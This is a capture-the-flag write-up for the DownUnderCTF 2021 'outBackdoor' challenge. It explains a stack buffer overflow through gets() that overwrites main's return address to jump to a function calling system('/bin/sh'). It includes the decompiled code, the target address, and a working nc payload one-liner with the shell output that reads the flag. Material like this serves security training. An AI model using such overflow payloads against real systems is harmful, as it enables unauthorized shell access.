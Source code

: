 # outBackdoor
>Fool me once, shame on you. Fool me twice, shame on me.

>Author: xXl33t_h@x0rXx

> nc pwn-2021.duc.tf 31921

[outBackdoor](https://drive.google.com/file/d/1ZLzi6VLqK6231NkTDtusYRlAfi7DkcO7/view?usp=sharing)

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+0h] [rbp-10h]

  buffer_init(*(_QWORD *)&argc, argv, envp);
  puts("\nFool me once, shame on you. Fool me twice, shame on me.");
  puts("\nSeriously though, what features would be cool? Maybe it could play a song?");
  gets(&v4);
  return 0;
}
```
 The gets function allow us to input more than 16 byte and overwrite the return address of main function.

```
int outBackdoor()
{
  puts("\n\nW...w...Wait? Who put this backdoor out back here?");
  return system("/bin/sh");
}
```

We see another function outBackdoor, which run system(“/bin/sh”) and give us the shell.

we just need to overwrite return address of main function to address of outBackdoor

```
public outBackdoor
outBackdoor proc near
; __unwind {
push    rbp
mov     rbp, rsp
lea     rdi, aWWWaitWhoPutTh ; "\n\nW...w...Wait? Who put this backdoor"...
call    _puts
lea     rdi, command    ; "/bin/sh"
mov     eax, 0
call    _system
nop
pop     rbp
retn
; } // starts at 4011D7
outBackdoor endp

```
Address of `outBackdoor` is `00000000004011D7`


```
┌──(kali㉿kali)-[~/Desktop/DownUnderCTF21]
└─$ python3                                                                                               148 ⨯ 3 ⚙
Python 3.9.1+ (default, Feb  5 2021, 13:46:56) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pwn
>>> pwn.p64(0x0000000004011d7)
b'\xd7\x11@\x00\x00\x00\x00\x00'

```


# Solution

```
┌──(kali㉿kali)-[~/Desktop/DownUnderCTF21]
└─$ (python -c 'print "a"*0x18 + "\xd8\x11@\x00\x00\x00\x00\x00"'; cat) |  nc pwn-2021.duc.tf 31921       148 ⨯ 1 ⚙

Fool me once, shame on you. Fool me twice, shame on me.

Seriously though, what features would be cool? Maybe it could play a song?


W...w...Wait? Who put this backdoor out back here?
ls
flag.txt
pwn
cat flag.txt
DUCTF{https://www.youtube.com/watch?v=XfR9iY5y94s}

```

